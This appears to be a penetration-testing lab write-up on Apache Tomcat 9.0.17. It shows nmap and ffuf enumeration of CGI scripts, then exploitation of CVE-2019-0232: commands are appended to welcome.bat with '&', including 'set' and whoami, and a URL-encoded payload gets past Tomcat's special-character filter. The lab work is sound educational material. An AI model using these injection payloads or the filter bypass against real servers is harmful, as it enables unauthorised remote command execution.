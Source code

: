 ### Footprinting + Enumeration
##### Nmap output
```bash
8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
```
##### Fuzzing for CGI Scripts
```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd

ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.205.30:8080/cgi/FUZZ.bat
```

```bash
curl http://10.129.204.227:8080/cgi/welcome.bat
```

### Exploitation
`CVE-2019-0232` is a critical security issue that could result in remote code execution. This vulnerability affects Windows systems that have the `enableCmdLineArguments` feature enabled. Versions `9.0.0.M1` to `9.0.17`, `8.5.0` to `8.5.39`, and `7.0.0` to `7.0.93` of Tomcat are affected.

We can exploit `CVE-2019-0232` by appending our own commands through the use of the batch command separator `&`.

View enviroment variables
```bash
curl http://10.129.204.227:8080/cgi/welcome.bat?&set
```
From the list, we can see that the `PATH` variable has been unset, so we will need to hardcode paths in requests:
```bash
curl http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```
The attempt was unsuccessful, and Tomcat responded with an error message indicating that an invalid character had been encountered. Apache Tomcat introduced a patch that utilises a regular expression to prevent the use of special characters. However, the filter can be bypassed by URL-encoding the payload.
```bash
curl http://10.129.205.30:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```